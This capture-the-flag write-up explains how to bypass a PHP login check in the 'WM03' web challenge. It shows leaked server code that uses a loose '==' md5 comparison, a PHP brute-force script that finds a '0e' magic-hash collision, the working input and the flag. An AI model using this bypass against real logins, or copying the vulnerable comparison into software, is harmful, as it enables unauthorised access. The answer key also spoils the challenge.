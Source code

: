 # WM03
> 250pts

## Briefing
> Visit the site at https://cfta-wm03.allyourbases.co and find a way to bypass the password check.

## Solution
Head straight to the source (literally)! In the index, we spy a *suspicious* piece of code that someone made a mistake of leaving on the client-side.

```html
<!--
TODO: remove, taken from OSS project, login contains:
return function ($event) {
    require_once("flag.php");
    $hash = "0e747135815419029880333118591372";
    $salt = "e361bfc569ba48dc";
    if (isset($event['password']) && is_string($event['password'])) {
        if (md5($salt . $event['password']) == $hash) {
            return $flag;
        }
    }
    return "Incorrect";
};
-->
```

It appears that the backend is PHP, which checks the password hashed with md5 and a salt against `$hash` and `$salt`.

> **IMPORTANT**: The hash starts with `0e`, which means that tthis is susceptible to a [**PHP 0e hash collision**](https://www.programmersought.com/article/91383171689/) AND the comparison `==` is used.

To brute force the value that matches up with `$hash` after its hashed with md5 + salt (to find the collision), I wrote a quick script:
```php
<?php
$i = 0;
$hash = "0e747135815419029880333118591372";
$salt = "e361bfc569ba48dc";
do{
    $i++;
} while(md5($salt . $i) != $hash);
echo $i;
?>
```
After a few seconds, the program spits out `15896119`, which allows us to circumvent the password-checking and login!

![loggedin](https://user-images.githubusercontent.com/69332964/113915288-9b439a00-97ac-11eb-895b-8a8f750767fe.png)

## Flag
Flag: `theLOOSEtheMATH&theTRUTHY`
